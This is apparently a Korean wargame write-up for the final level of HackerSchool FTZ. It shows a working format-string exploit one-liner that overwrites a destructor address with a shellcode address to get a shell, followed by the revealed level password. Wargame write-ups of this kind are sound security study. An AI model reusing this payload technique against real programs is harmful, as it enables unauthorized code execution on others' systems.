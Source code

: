 쉘코드의 주소값인 0xbfffff03이 4byte로 하면 음수가 되기 때문에 혹시 몰라서 2byte씩 나누어서 입력했다.


```bash
[level20@ftz tmp]$ ./shellcode
0xbfffff03
[level20@ftz tmp]$ (python -c "print('\x9a\x95\x04\x08AAAA\x98\x95\x04\x08%8x%8x%49123x%hn%16132x%hn')";cat) | ../attackme

... (쓰레기 출력값) ...

my-pass

TERM environment variable not set.

clear Password is "i will come in a minute".
웹에서 등록하세요.

* 해커스쿨의 든 레벨을 통과하신 것을 축하드립니다.
당신의 끈질긴 열정과 능숙한 솜씨에 찬사를 보냅니다.
해커스쿨에서는 실력있 분들을 모아 연구소라는 그룹을 운영하고 있습니다.
이 메시지를 보시는 분들 중에 연구소에 관심있으신 분은 자유로운 양식의
가입 신청서를 admin@hackerschool.org로 보내주시기 바랍니다.
```

```tip
## 알게 된 점

constructor, destructor

Format String Bug (FSB)
```